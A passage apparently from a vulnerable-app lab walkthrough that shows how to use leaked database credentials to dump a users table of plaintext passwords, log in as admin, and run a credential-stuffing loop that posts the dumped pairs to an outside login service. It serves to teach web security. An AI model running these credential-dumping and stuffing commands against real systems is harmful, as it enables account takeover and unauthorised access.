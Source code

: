 #### Step 2: Access Database (Via SSRF or Direct Access)

```bash
# If you have database credentials from .env exposure (A05)
# Connect to the database
mysql -h localhost -u wcorp_user -p wcorp_db
```

#### Step 3: Query Passwords Table

```sql
-- View all usernames and passwords
SELECT id, username, password, email, role 
FROM users;
```

**Result:**
```
+----+----------+----------------------+-------------------+-------+
| id | username | password             | email             | role  |
+----+----------+----------------------+-------------------+-------+
|  1 | admin    | admin123             | admin@wcorp.com   | admin |
|  2 | john.doe | password123          | john@example.com  | user  |
|  3 | testuser | MySecretPassword123! | test@example.com  | user  |
+----+----------+----------------------+-------------------+-------+
```

✅ **All passwords visible in plain text!**

#### Step 4: Use Discovered Credentials

```bash
# Login as admin using discovered password
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin",
    "password": "admin123"
  }'
```

#### Step 5: Credential Stuffing Attack

```bash
# Extract all credentials
mysql -h localhost -u wcorp_user -pwcorp_pass wcorp_db \
  -e "SELECT username, password FROM users;" \
  > credentials.txt

# Try these credentials on other services
while IFS=$'\t' read -r username password; do
  echo "Trying $username:$password on external service..."
  curl -X POST https://external-service.com/login \
    -d "username=$username&password=$password"
done < credentials.txt
```

